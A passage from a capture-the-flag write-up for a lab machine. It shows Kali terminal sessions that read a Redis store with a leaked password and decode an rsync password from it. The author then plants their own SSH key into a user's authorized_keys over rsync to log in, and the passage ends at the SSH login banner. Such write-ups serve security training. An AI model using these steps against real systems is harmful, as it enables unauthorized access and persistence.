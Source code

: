So we likely have a redis password now so lets try and enumerate that next.

#Enumerating redis
```
┌──(root💀kali)-[~/CTFS/vulnNetInternal]
└─# redis-cli -h 10.10.72.124 -a 'B65Hx562F@ggAZ@F'
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.72.124:6379> keys *
1) "int"
2) "tmp"
3) "marketlist"
4) "internal flag"
5) "authlist"
10.10.72.124:6379> get "internal flag"
"REDACTED"
10.10.72.124:6379> get authlist
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.72.124:6379> type authlist
list
10.10.72.124:6379> lrange authlist 0 100
```

We also checked the other keys but of interest was the internal flag and the authlist which gave us some base64 to decode and receive a rsync password from
Hcg3HP67@TW@Bc72v

#Enumerating rsync
```
┌──(root💀kali)-[~/CTFS/vulnNetInternal]
└─# rsync -av --list-only rsync://10.10.72.124:873
files           Necessary home interaction

┌──(root💀kali)-[~/CTFS/vulnNetInternal]
└─# mkdir rsync

┌──(root💀kali)-[~/CTFS/vulnNetInternal]
└─# rsync -av rsync://rsync-connect@10.10.72.124:873/files ./rsync
Password:
receiving incremental file list
```

This copies all the files onto our system for us to examine. We find a the username sys-internal and the user.txt flag. After unsuccessfully looking for exposed credentials to actually establish a foothold. We decide to upload our ssh-public key and ssh into the box that way
```
┌──(root💀kali)-[~/CTFS/vulnNetInternal]
└─# rsync -ahv /root/.ssh/id_rsa.pub rsync://rsync-connect@10.10.72.124:873/files/sys-internal/.ssh/authorized_keys --inplace --no-o --no-g
Password:
sending incremental file list
id_rsa.pub

sent 657 bytes  received 35 bytes  125.82 bytes/sec
total size is 563  speedup is 0.81

┌──(root💀kali)-[~/CTFS/vulnNetInternal]
└─# ssh -i /root/.ssh/id_rsa sys-internal@10.10.72.124
The authenticity of host '10.10.72.124 (10.10.72.124)' can't be established.
ECDSA key fingerprint is SHA256:0ysriVjo72WRJI6UecJ9s8z6QHPNngSiMUKWFTO6Vr4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.72.124' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
```
